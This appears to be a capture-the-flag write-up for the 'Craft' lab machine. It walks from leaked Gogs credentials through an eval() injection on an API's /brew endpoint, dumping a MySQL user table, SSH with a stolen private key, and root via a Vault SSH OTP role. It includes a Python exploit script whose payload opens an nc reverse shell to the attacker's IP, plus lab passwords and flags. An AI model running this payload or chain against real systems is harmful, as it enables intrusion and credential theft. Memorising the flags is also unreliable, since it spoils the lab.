<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - A brewery site points at a Gogs instance and a REST API. A public commit on Gogs leaks `dinesh`'s creds, and digging through the API code I find an `eval()` on the `abv` parameter of the `/brew` endpoint. I abuse it with a little python script for a reverse shell, landing inside a Docker container. The DB config there leaks MySQL creds, the `user` table hands me `gilfoyle`, and his repo has an `id_rsa` that logs me into the actual host over SSH (user.txt). For root, gilfoyle manages HashiCorp Vault, and there's an SSH OTP role called `root_otp`, so I just ask Vault for a one-time password and SSH straight in as root.

## Recon

As always, I started with a full nmap scan on the target.

```bash
nmap -sV -sC -p- -oN nmap/craft 10.129.84.97
```



Three ports open. 443 is nginx 1.15.8, and then two SSH services, one on the default 22 and another on 6022, which is already a bit odd. Let's start with the webpage on 443.



Poking around the page and clicking the buttons on the right, one sends me to `gogs.craft.htb` and the other (the API one) to `api.craft.htb`, so I threw both on my `/etc/hosts` and went to look at each. Starting with the API.



It's exactly what the name says, an API. Could be useful later, so I noted it and moved on to `gogs.craft.htb`.



Gogs is a self-hosted Git service, basically a lightweight GitHub you can spin up on your own server. So I went exploring and found some public repos.



## Gogs leak → eval() injection in the API

And there it is, credentials just sitting in a commit for the user `dinesh:4aUh0A8PbVJxgd`. I logged into Gogs as him and got straight in. Then, digging through the repo, I spotted something tasty, a possible command injection.



Looking closer, you can send a POST request to `/brew` and abuse an `eval()` call. The vulnerable line is basically `eval('%s > 1' % request.json['abv'])`, so whatever I stuff into the `abv` field gets evaluated as Python. There was even an open issue spelling it out for me.



So with valid creds (login gives you a token) and an example `/brew` request to work from, I wrote a little python3 script to chain it together (yeah, I'm putting my scripting to the test).

```python
import requests
import urllib3
urllib3.disable_warnings()

url = 'https://api.craft.htb/api/auth/login'

r = requests.get(url, auth=('dinesh','4aUh0A8PbVJxgd'), verify=False)

print(r.status_code)
print(r.text)

token = r.json().get("token")

url_brew = 'https://api.craft.htb/api/brew/'

cmd = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.100 4444 >/tmp/f'

craft_header = {'X-Craft-API-Token': token}
data = {'name': 'bullshit',
        'brewer': 'bullshit',
        'style': 'bullshit',
        'abv': f"__import__('os').system('{cmd}')"
        }

r2 = requests.post(url_brew, headers=craft_header, json=data, verify=False)
print(r2.status_code)
print(r2.text)
```

The script logs in as dinesh, grabs his token, then submits a POST to `/brew` with the code injection in the `abv` field. Fire it off with a listener ready and...



Shell. Nice.

## Out of the container → the database

Except, apparently I landed inside a Docker container, so I need to find a way over to the actual machine. Poking around, I found the database config file.



Inside were MySQL creds, `craft:qLGockJ6G2J75O`. I tried talking to the database with the `mysql` client but no luck, so I fell back to python instead.

```bash
python -c "import pymysql; c=pymysql.connect(host='db',user='craft',password='qLGockJ6G2J75O',db='craft'); cur=c.cursor(); cur.execute('SHOW TABLES'); print(cur.fetchall())"
```



Two tables, `user` and `brew`. Let's see what's in the users one.

```bash
python -c "import pymysql; c=pymysql.connect(host='db',user='craft',password='qLGockJ6G2J75O',db='craft'); cur=c.cursor(); cur.execute('SELECT * FROM user'); print(cur.fetchall())"
```



Three users. One we already know, and two new ones, `ebachman:llJ77D8QFkLPQB` and `gilfoyle:ZEU3N8WNM2rh4T`. I tried SSH with them first but no luck, so I went back to the Gogs webapp and logged in as `gilfoyle` (ebachman's login didn't work). And this guy is interesting, he seems to manage the infra for the server, and sitting in his repo was an `id_rsa` (and the matching pub key).



## gilfoyle → SSH → user.txt

So I pulled the `id_rsa` down to my machine and just SSH'd in with it. It asked for a passphrase, I threw gilfoyle's password at it, and I was in.



Which also gave me the user flag.



```
382e8f2c0ca8e5707de44c0abd722413
```

## Privilege escalation (Vault SSH OTP)

Time to go for root. Looking around the box, I noticed gilfoyle is managing HashiCorp Vault, he's got a `.vault-token` lying around, and checking `secrets.sh`...



...I can see there's an SSH role called `root_otp` that was set up. Vault's SSH secrets engine can hand out one-time passwords for SSH, so if I can ask Vault for a `root_otp` credential, I get a valid one-time password to log in as root. No cracking, no keys, just ask nicely. After a bit of reading on how to pull a credential for a specific role, this is the command.

```bash
vault write ssh/creds/root_otp ip=127.0.0.1
```



Got it, `root:a75d7e9a-d2ff-f028-456f-ab13138f720f`. Now all I have to do is SSH to root and paste that OTP as the password.

```bash
ssh root@127.0.0.1
```



And we're root. Box done.

```
66485079dcc63b6cb4aafd7cf35ae123
```

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | 443 webapp → `gogs` + `api` vhosts | attack surface |
| Foothold | creds leaked in a Gogs commit | `dinesh` on Gogs + API |
| Shell | `eval()` injection on the `/brew` abv param | reverse shell (Docker container) |
| Lateral | DB config → MySQL `user` table | `gilfoyle` creds + his `id_rsa` |
| User | SSH with gilfoyle's key | shell on the host (user.txt) |
| Root | HashiCorp Vault SSH OTP role `root_otp` | root via one-time password (root.txt) |

## Final thoughts

Really nice box, the kind where every step is a logical breadcrumb into the next one. The `eval()` on the abv field is a lovely reminder of why you never feed user input into `eval`, and the Vault SSH OTP finish was something new for me, way cleaner than the usual kernel exploit or sudo misconfig. Also a good excuse to write some python instead of copy-pasting a PoC, which I'm always here for. Solid Medium, enjoyed this one.
